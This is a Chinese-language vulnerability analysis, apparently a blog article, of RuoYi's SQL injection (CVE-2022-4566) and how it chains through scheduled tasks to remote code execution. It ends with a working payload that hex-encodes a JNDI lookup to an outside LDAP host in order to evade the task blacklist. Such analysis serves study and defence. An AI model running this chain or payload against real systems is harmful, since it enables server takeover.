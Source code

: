 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7norulAqc9zskG20ibENWNVYKUL9czWnkMic8icUjz4pYhO0huPgibH1DbtemvQ/640?wx_fmt=png&from=appmsg "")  
  
从上可分析出如下结果：  
1. 对象可以是 spring 容器中注册过的 bean，也可以指定 class 名称  
  
1. 若是 spring 容器中注册过的 bean，则可直接从 spring 容器中取出，若是指定 class 名称，则可以通过反射 newInstance()创建对象  
  
**SQL 注入分析**  
  
在 ruoyi 4.7.5 版本之前，后台接口/tool/gen/createTable处存在 sql 注入(CVE-2022-4566)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7norunoxaUMZWzaIyrxS4pDicj8qAoHpI0W5ichibJTs2fq6eiaCsiaXibXC7auuQ/640?wx_fmt=png&from=appmsg "")  
  
而 genTableService 的实现类是 GenTableServiceImpl  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7norucIRQxqicF5sHvWNuz3T1vv9ACy2D5wopMeLDwI0px2725LfMJ4vwwaQ/640?wx_fmt=png&from=appmsg "")  
  
对应的 Mapper 语句  
```
<update id="createTable">
       ${sql}
</update>

```  
  
运行结果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noru4lcrfRnAib3KurensrZWY9MrVWXVrazrjW5nxV6PGRQlMkdeKZR6Xag/640?wx_fmt=png&from=appmsg "")  
  
**RCE 分析**  
  
根据上文可知，ruoyi 计划任务能调用 bean 或者 class 类，SQL 注入依赖于 GenTableServiceImpl#createTable。如果 GenTableServiceImpl 是 bean 对象，就可以直接调用 GenTableServiceImpl#createTable 执行 SQL 语句  
  
在启动类中打印所有加载的 bean，其中包括 genTableServiceImpl  
```
 ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
// 获取所有bean的名称
String[] beanDefinitionNames = run.getBeanDefinitionNames();
// 打印所有bean的名称
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruibT8unia89o3kydkeYhQquK6ibLntIUrOkBcGTxOC2UiamLtbV8dbPBViag/640?wx_fmt=png&from=appmsg "")  
  
于是可以调用 genTableServiceImpl.createTable 实现 sql 语句执行，所以 RCE 的思路：配合注入在 sys_job 数据表中直接插入恶意计划任务，即可不调用 addSave 方法添加计划任务内容，成功绕过黑白名单限制  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiarf3s1sEcjtzNcVVT7noruE8LkQnuQMZic98uFshsI5ZvQ2U4BUYLTtR3HIicC43PwAYIEiaTq3kGAg/640?wx_fmt=png&from=appmsg "")  
  
细节：  
  
在添加 SQL 定时任务时，可以通过 16 进制转换绕过黑名单检测  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target =0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f797670307a662e646e736c6f672e636e2729 WHERE job_id = 100;')

```  
  